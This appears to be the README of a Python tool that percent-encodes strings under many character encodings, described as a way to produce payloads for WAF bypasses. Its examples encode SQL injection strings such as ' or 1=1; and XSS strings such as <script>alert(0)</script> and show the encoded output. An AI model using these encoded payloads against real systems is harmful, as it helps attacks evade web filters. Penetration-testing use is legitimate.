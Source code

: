 # Overview

Convert strings to various encodings and force percent encoding on each byte. Useful for producing payloads for WAF bypasses.

# Usage

- meaningful output is sent to `stdout`, everything else is sent to `stderr`
- can encode a single string or each string in one or more files
- can encode using one, multiple, or all encoders
- can look up the encoder for an encoded value from a string or strings in one or more files

## Rational Output

Can pipe actionable output to files without capturing alerts:

```
archangel@iron:percent_encoding_generator~> ./generator.py -i sample_files/*.txt -a > payloads.txt
[+] Encoding lines from files
[+] Failed encoding for: cp864
Error Message: 'charmap' codec can't encode character '\x25' in position 0: character maps to <undefined>
[+] Done!
archangel@iron:percent_encoding_generator~> head payloads.txt
%5a
%7f
%7b
%5b
%6c
%50
%7d
%4d
%5d
%5c
```

## Encoding a String

Encoding a single payload as `utf_8` and `utf_16`:

```
archangel@iron:percent_encoding_generator~> ./generator.py -s "' or 1=1;" -e utf_16 utf_8
[+] Encoding (no leading/trailing quotes): '' or 1=1;'
%ff%fe%27%00%20%00%6f%00%72%00%20%00%31%00%3d%00%31%00%3b%00
%27%20%6f%72%20%31%3d%31%3b
[+] Done!
```

Encoding a single payload with all Python encodings:

```
archangel@iron:percent_encoding_generator~> ./generator.py -s "' or 1=1;" -a
[+] Encoding (no leading/trailing quotes): '' or 1=1;'
%7d%40%96%99%40%f1%7e%f1%5e
%27%20%6f%72%20%31%3d%31%3b
%00%27%00%20%00%6f%00%72%00%20%00%31%00%3d%00%31%00%3b
%27%00%00%00%20%00%00%00%6f%00%00%00%72%00%00%00%20%00%00%00%31%00%00%00%3d%00%00%00%31%00%00%00%3b%00%00%00
%ff%fe%00%00%27%00%00%00%20%00%00%00%6f%00%00%00%72%00%00%00%20%00%00%00%31%00%00%00%3d%00%00%00%31%00%00%00%3b%00%00%00
%00%00%00%27%00%00%00%20%00%00%00%6f%00%00%00%72%00%00%00%20%00%00%00%31%00%00%00%3d%00%00%00%31%00%00%00%3b
%ff%fe%27%00%20%00%6f%00%72%00%20%00%31%00%3d%00%31%00%3b%00
%27%00%20%00%6f%00%72%00%20%00%31%00%3d%00%31%00%3b%00
[+] Done!
```

## Encoding Strings from Files

Encoding all strings from a single file:

```
archangel@iron:percent_encoding_generator~> ./generator.py -i sqli.txt -e utf_16
[+] Encoding lines from files
%ff%fe%27%00%20%00%4f%00%52%00%20%00%31%00%3d%00%31%00%3b%00
%ff%fe%29%00%20%00%41%00%4e%00%44%00%20%00%34%00%34%00%34%00%3c%00%35%00%35%00%35%00%20%00%4f%00%52%00%44%00%45%00%52%00%20%00%42%00%59%00%20%00%37%00%3b%00
[+] Done!
```

Encoding all strings from multiple files:

```
archangel@iron:percent_encoding_generator~> ./generator.py -i *.txt -e utf_16
[+] Encoding lines from files
%ff%fe%21%00
%ff%fe%22%00
%ff%fe%23%00
%ff%fe%24%00
%ff%fe%25%00
%ff%fe%26%00
%ff%fe%27%00
%ff%fe%28%00
%ff%fe%29%00
%ff%fe%2a%00
%ff%fe%2b%00
%ff%fe%2c%00
%ff%fe%2d%00
%ff%fe%2e%00
%ff%fe%2f%00
%ff%fe%3a%00
%ff%fe%3b%00
%ff%fe%3c%00
%ff%fe%3d%00
%ff%fe%3e%00
%ff%fe%3f%00
%ff%fe%40%00
%ff%fe%5b%00
%ff%fe%5c%00
%ff%fe%5d%00
%ff%fe%5e%00
%ff%fe%5f%00
%ff%fe%60%00
%ff%fe%7b%00
%ff%fe%7c%00
%ff%fe%7d%00
%ff%fe%7e%00
%ff%fe%27%00%20%00%4f%00%52%00%20%00%31%00%3d%00%31%00%3b%00
%ff%fe%29%00%20%00%41%00%4e%00%44%00%20%00%34%00%34%00%34%00%3c%00%35%00%35%00%35%00%20%00%4f%00%52%00%44%00%45%00%52%00%20%00%42%00%59%00%20%00%37%00%3b%00
%ff%fe%3c%00%73%00%63%00%72%00%69%00%70%00%74%00%3e%00%61%00%6c%00%65%00%72%00%74%00%28%00%30%00%29%00%3c%00%2f%00%73%00%63%00%72%00%69%00%70%00%74%00%3e%00
%ff%fe%3c%00%69%00%6d%00%67%00%20%00%73%00%72%00%63%00%3d%00%22%00%6a%00%61%00%76%00%61%00%73%00%63%00%72%00%69%00%70%00%74%00%3a%00%61%00%6c%00%65%00%72%00%74%00%28%00%30%00%29%00%22%00%3e%00                                                                                                                                                                                             
[+] Done!
```

## Looking up a String

Should an encoded value of interest be observed, simply pass that value to the `-l` flag to look up the corresponding value. This is useful only if the proper string or input files are supplied to `-s` or `-i` respectively.

```
archangel@iron:percent_encoding_generator~> ./generator.py -i *.txt -l %ff%fe%27%00%20%00%4f%00%52%00%20%00%31%00%3d%00%31%00%3b%00 -c
[+] Encoding lines from files
[+] Failed encoding for: cp864
Error Message: 'charmap' codec can't encode character '\x25' in position 0: character maps to <undefined>
[+] Common Encodings:
utf_16
[+] Done!
```
